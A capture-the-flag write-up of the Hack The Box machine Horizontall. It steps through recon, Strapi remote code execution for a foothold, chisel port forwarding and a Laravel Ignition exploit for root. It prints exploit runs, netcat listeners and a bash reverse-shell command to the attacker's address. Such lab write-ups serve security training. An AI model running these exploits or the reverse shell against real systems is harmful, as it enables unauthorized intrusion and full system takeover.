


# Horizontall

## Machine Info



## Recon

### port

- nmap
  - 80, http nginx, domain name`horizontal.htb`

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### subdomain

- gobuster: find `api-prod.horizontall.htb`

```console
└─╼$ gobuster vhost -u http://horizontall.htb/ --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://horizontall.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb Status: 200 [Size: 413]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```

### path

- `horizontall.htb`: nothing special
- `api-prod.horizontall.htb`

```console
└─╼$ gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 64 -x php,html,txt --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/index.html           (Status: 200) [Size: 413]
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/robots.txt           (Status: 200) [Size: 121]
/Reviews              (Status: 200) [Size: 507]
/index.html           (Status: 200) [Size: 413]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```

### web



Check some apis to exhibit basic information:

- `strapi 3.0.0-beta.17.4`

```console
└─╼$ curl http://api-prod.horizontall.htb/users | jq .
{
  "statusCode": 403,
  "error": "Forbidden",
  "message": "Forbidden"
}

└─╼$ curl http://api-prod.horizontall.htb/admin/init | jq .
{
  "data": {
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
    "currentEnvironment": "development",
    "autoReload": false,
    "strapiVersion": "3.0.0-beta.17.4"
  }
}
```

## Foothold

### CVE-2019-18818 & CVE-2019-19609

Reference: https://github.com/glowbase/CVE-2019-19609/tree/main

```console
└─╼$ python exploit.py http://api-prod.horizontall.htb 10.10.14.14 1234
========================================================
|    STRAPI REMOTE CODE EXECUTION (CVE-2019-19609)     |
========================================================
[+] Checking Strapi CMS version
[+] Looks like this exploit should work!
[+] Executing exploit

------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45488
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
$ uname -a
Linux horizontall 4.15.0-154-generic #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.105  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:4acb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:4acb  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:4a:cb  txqueuelen 1000  (Ethernet)
        RX packets 734808  bytes 114545886 (114.5 MB)
        RX errors 0  dropped 18  overruns 0  frame 0
        TX packets 804941  bytes 339430325 (339.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2503723  bytes 309677476 (309.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2503723  bytes 309677476 (309.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Privilege Escalation

### enumeration

Local services enumeration:

- 1337 nodejs
- 8000

```console
$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1808/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

Enumerate 8000 http service:

- `Laravel v8`: [CVE-2021-3129](https://github.com/joshuavanderpoll/CVE-2021-3129)
- `PHP v7.4.18`

```console
$ curl http://127.0.0.1:8000
...
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">Laravel v8 (PHP v7.4.18)</div>
...
```

### port forwarding

Local host

```console
└─╼$ ./chisel_1.9.1_linux_amd64 server --reverse -p 443
2024/02/02 15:18:27 server: Reverse tunnelling enabled
2024/02/02 15:18:27 server: Fingerprint IYAJepgAvnwALNGxqZ7wVEkPFmPo4Xwrpc/Vl0sBLKE=
2024/02/02 15:18:27 server: Listening on http://0.0.0.0:443
2024/02/02 15:19:43 server: session#1: tun: proxy#R:8000=>8000: Listening
```

Remote host

```console
$ ./chisel client 10.10.14.14:443 R:8000:127.0.0.1:8000
2024/02/02 20:19:44 client: Connecting to ws://10.10.14.14:443
2024/02/02 20:19:44 client: Connected (Latency 39.051832ms)
```

### Exploit

**POC**:

```console
└─╼$ python3 CVE-2021-3129.py --host="http://127.0.0.1:8000/" --force
   _____   _____   ___ __ ___ _    _____ ___ ___
  / __\ \ / / __|_|_  )  \_  ) |__|__ / |_  ) _ \
 | (__ \ V /| _|___/ / () / /| |___|_ \ |/ /\_, /
  \___| \_/ |___| /___\__/___|_|  |___/_/___|/_/
 https://github.com/joshuavanderpoll/CVE-2021-3129

[•] Using PHPGGC: https://github.com/ambionics/phpggc
[@] Starting exploit on "http://127.0.0.1:8000/"...
[@] Testing vulnerable URL "http://127.0.0.1:8000/_ignition/execute-solution"...
[@] Searching Laravel log file path...
[•] Laravel seems to be running on a Linux based machine.
[√] Laravel log path: "/home/developer/myproject/storage/logs/laravel.log".
[•] Laravel version found: "8.43.0".
[•] Use "?" for a list of all possible actions.
[?] Please enter a command to execute: execute id
[@] Executing command "id"...
[@] Generating payload...
[@] Trying chain laravel/rce2 [2/21]...
[@] Clearing logs...
[@] Causing error in logs...
[√] Caused error in logs.
[@] Sending payloads...
[√] Sent payload.
[@] Converting payload...
[√] Converted payload.
[√] Result:

uid=0(root) gid=0(root) groups=0(root)

[√] Working chain found. You have now access to the 'patch' functionality.

[?] Please enter a command to execute: execute ping -c 1 10.10.14.14
[@] Executing command "ping -c 1 10.10.14.14"...
[@] Generating payload...
[√] Generated 1 payloads.
[@] Trying chain laravel/rce2 [1/1]...
[@] Clearing logs...
[@] Causing error in logs...
[√] Caused error in logs.
[@] Sending payloads...
[√] Sent payload.
[@] Converting payload...
[√] Converted payload.
[√] Result:

PING 10.10.14.14 (10.10.14.14) 56(84) bytes of data.
64 bytes from 10.10.14.14: icmp_seq=1 ttl=63 time=52.0 ms

--- 10.10.14.14 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 52.035/52.035/52.035/0.000 ms
```

**Exploit**:

```console
[?] Please enter a command to execute: execute bash -c "bash -i >&/dev/tcp/10.10.14.14/4321 0>&1"
[@] Executing command "bash -c "bash -i >&/dev/tcp/10.10.14.14/4321 0>&1""...
[@] Generating payload...
[√] Generated 1 payloads.
[@] Trying chain laravel/rce2 [1/1]...
[@] Clearing logs...
[@] Causing error in logs...
[√] Caused error in logs.
[@] Sending payloads...
[√] Sent payload.
[@] Converting payload...
[√] Converted payload.

-------------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 33786
bash: cannot set terminal process group (4778): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# id
id
uid=0(root) gid=0(root) groups=0(root)
root@horizontall:/home/developer/myproject/public# uname -a
uname -a
Linux horizontall 4.15.0-154-generic #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 80 http with domain name -> subdomain recon: api-prod.horizontall.htb -> path recon -> confirm serivce and its version -> vuln: weak pass recovery & cmd injection -> strapi shell -> local service (Laravel) found with vuln & hosted by root -> rce -> root shell
